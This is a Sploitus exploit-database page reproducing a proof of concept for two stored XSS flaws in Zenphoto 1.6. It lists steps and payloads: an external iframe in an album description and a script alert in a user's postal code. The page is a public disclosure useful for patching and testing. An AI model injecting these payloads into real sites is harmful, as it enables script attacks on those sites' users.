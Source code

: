 ```yaml
---
title: Zenphoto 1.6 - Multiple stored XSS Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38734&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-27
fetch_date: 2025-10-04T11:38:58.814503
---
```


# Zenphoto 1.6 - Multiple stored XSS Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Zenphoto 1.6 - Multiple stored XSS Vulnerability

2023-05-26 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38734
Exploit Title: Zenphoto 1.6 - Multiple stored XSS
Application: Zenphoto-1.6 xss poc
Version: 1.6
Bugs:  XSS
Technology: PHP
Vendor URL: https://www.zenphoto.org/news/zenphoto-1.6/
Software Link: https://github.com/zenphoto/zenphoto/archive/v1.6.zip
Date of found: 01-05-2023
Author: Mirabbas Ağalarov
Tested on: Linux

2. Technical Details & POC
========================================
###XSS-1###
steps:
1. create new album
2. write Album Description : <iframe src="https://14.rs"></iframe>
3. save and view album  http://localhost/zenphoto-1.6/index.php?album=new-album or http://localhost/zenphoto-1.6/

=====================================================
###XSS-2###
steps:
1. go to user account and change user data (http://localhost/zenphoto-1.6/zp-core/admin-users.php?page=users)
2.change postal code  as <script>alert(4)</script>
3.if admin user information import as html , xss will trigger

poc video : https://youtu.be/JKdC980ZbLY
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)